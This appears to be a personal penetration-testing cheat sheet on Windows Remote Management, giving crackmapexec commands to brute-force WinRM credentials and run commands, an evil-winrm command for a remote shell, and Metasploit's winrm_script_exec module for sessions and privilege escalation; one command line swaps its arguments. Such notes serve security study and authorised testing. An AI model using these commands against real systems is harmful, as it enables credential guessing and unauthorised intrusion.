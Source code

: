 Not enabled by default
![](</Images/Pasted image 20231203173838.png>)

nmap default scan won't find. Either open range or ports 5985 or 5986 

#crackmapexec can brute force to get credentials or execute 
Examples:
>brute force
```bash
crackmapexec winrm $IP -u $USER -p $WORDLIST
```


>execute commands
>`crackmapexec winrm -u <user> -p <passowrd> -x <command>`


## evil-winrm 
Can be used to obtain a command shell
```bash
evil-winrm.rb -u $IP -p $PASSWORD -i $IP
```


#metasploit can be used for meterpreter session
`module winrm_script_exec`

Also has method check, returns two methods that show it can be brute forced with msfconsole

winrm cmd will allow executing commands.

Script to exploit winRM, meterpreter, and migrate/elevate privs. Needs credentials
`/windows/winrm/winrm_script_exec`

